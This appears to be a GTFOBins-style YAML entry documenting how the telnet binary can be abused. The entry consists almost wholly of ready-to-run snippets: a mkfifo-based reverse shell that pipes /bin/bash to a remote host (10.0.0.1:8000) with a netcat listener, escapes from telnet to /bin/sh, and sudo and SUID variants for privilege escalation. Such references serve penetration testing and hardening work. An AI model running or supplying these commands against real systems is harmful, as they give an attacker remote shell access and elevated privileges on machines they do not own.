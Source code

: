 ```yaml
---
functions:
  exec-interactive:
    - code: |
        RHOST=www.google.com
        RPORT=80
        telnet $RHOST $RPORT
        ^]
        !/bin/sh
      description: MacOS only.
  reverse-shell:
    - description: Run `nc -l -p 8000` to receive the shell on the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        TF=$(mktemp)
        rm $TF
        mkfifo $TF && telnet $RHOST $RPORT 0<$TF | /bin/bash 1>$TF
  sudo-enabled:
    - code: |
        RHOST=www.google.com
        RPORT=80
        sudo telnet $RHOST $RPORT
        ^]
        !/bin/sh
      description: MacOS only.
  suid-limited:
    - code: |
        RHOST=www.google.com
        RPORT=80
        ./telnet $RHOST $RPORT
        ^]
        !/bin/sh
      description: MacOS only.
---
```

